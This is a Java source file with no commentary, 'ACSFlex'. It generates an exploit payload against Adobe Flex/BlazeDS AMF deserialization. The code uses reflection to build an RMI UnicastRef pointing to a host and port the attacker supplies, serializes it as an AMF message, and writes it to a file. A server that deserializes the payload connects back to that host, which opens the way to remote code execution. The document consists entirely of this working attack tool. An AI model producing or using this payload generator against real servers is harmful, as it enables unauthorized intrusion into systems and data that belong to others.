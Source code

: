 




import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.AmfMessageSerializer;
import java.io.*;
import java.lang.reflect.*;

public class ACSFlex {
    public static void main(String[] args) {
        Object unicastRef = generateUnicastRef(args[0], Integer.parseInt(args[1]));
        // serialize object to AMF message
        try {
            byte[] amf = new byte[0];
            amf = serialize(unicastRef);
            DataOutputStream os = new DataOutputStream(new FileOutputStream(args[2]));
            os.write(amf);
            System.out.println("Done, payload written to " + args[2]);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static Object generateUnicastRef(String host, int port) {
        try {
            // Create an RMI ObjID
            java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
            
            // UPDATED PART: Use reflection to create a TCPEndpoint
            Class<?> tcpEndpointClass = Class.forName("sun.rmi.transport.tcp.TCPEndpoint");
            Constructor<?> tcpEndpointConstructor = tcpEndpointClass.getDeclaredConstructor(String.class, int.class);
            Object endpoint = tcpEndpointConstructor.newInstance(host, port);

            // UPDATED PART: Use reflection to create a LiveRef
            Class<?> liveRefClass = Class.forName("sun.rmi.transport.LiveRef");
            Constructor<?> liveRefConstructor = liveRefClass.getDeclaredConstructor(java.rmi.server.ObjID.class, tcpEndpointClass, boolean.class);
            Object liveRef = liveRefConstructor.newInstance(objId, endpoint, false);

            // UPDATED PART: Use reflection to create a UnicastRef
            Class<?> unicastRefClass = Class.forName("sun.rmi.server.UnicastRef");
            Constructor<?> unicastRefConstructor = unicastRefClass.getDeclaredConstructor(liveRefClass);
            return unicastRefConstructor.newInstance(liveRef);

        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }

    public static byte[] serialize(Object data) throws IOException {
        MessageBody body = new MessageBody();
        body.setData(data);

        ActionMessage message = new ActionMessage();
        message.addBody(body);

        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);

        return out.toByteArray();
    }
}
